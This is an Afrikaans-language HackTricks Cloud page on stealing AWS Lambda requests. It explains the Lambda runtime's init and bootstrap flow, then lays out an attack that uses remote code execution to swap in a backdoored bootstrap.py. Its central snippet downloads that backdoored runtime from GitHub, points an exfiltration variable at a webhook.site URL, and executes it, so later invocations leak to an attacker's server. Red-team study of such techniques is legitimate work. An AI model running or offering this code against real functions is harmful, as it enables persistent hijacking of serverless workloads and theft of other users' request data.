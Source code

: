 # AWS - Steel Lambda Versoeke

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Lambda Vloei

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **aanroepings** na die **init** proses **stuur**.
2. Die init proses luister op poort **9001** en stel 'n paar interessante eindpunte bloot:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroepinggebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gee die hanteringsreaksie vir die aanroeping terug
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gee 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepings van die init proses kry en roep die gebruikerskode aan om hulle te hanteer (**`/next`**).
4. Laastens stuur **bootstrap.py** die **reaksie** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, sodat enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, eintlik in hierdie proses plaasvind.

## Steel Lambda Versoeke

Die doel van hierdie aanval is om die gebruikerskode 'n bose **`bootstrap.py`** proses binne die **`bootstrap.py`** proses te laat uitvoer wat die kwesbare versoek hanteer. Op hierdie manier sal die **bose bootstrap** proses begin **praat met die init proses** om die versoeke te hanteer terwyl die **regmatige** bootstrap **vasgevang** is terwyl die bose een loop, sodat dit nie vir versoeke aan die init proses sal vra nie.&#x20;

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die regmatige **`bootstrap.py`** proses uitgevoer word. Die aanvaller kan dus:

* **Stuur 'n valse resultaat van die huidige aanroeping na die init proses**, sodat init dink die bootstrap proses wag vir meer aanroepings.
* 'n versoek moet gestuur word na **`/${invoke-id}/response`**&#x20;
* Die aanroep-ID kan verkry word uit die stok van die regmatige **`bootstrap.py`** proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) python module te gebruik (soos [voorgestel hier](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) of net weer daarna te vra by **`/2018-06-01/runtime/invocation/next`** (soos [voorgestel hier](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Voer 'n bose **`boostrap.py`** uit wat die volgende aanroepings sal hanteer
* Vir stilte doeleindes is dit moontlik om die lambda aanroepingsparameters na 'n aanvaller se beheerde C2 te stuur en dan die versoeke soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die bose kode by te voeg en dit van die huidige lambda aanroeping uit te hardloop.

### Aanvalstappe

1. Vind 'n **RCE** kwesbaarheid.
2. Skep 'n **bose** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Voer** die bose bootstrap uit.

Jy kan maklik hierdie aksies uitvoer deur te hardloop:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Vir meer inligting kyk na [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Verwysings

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag. 

</details>
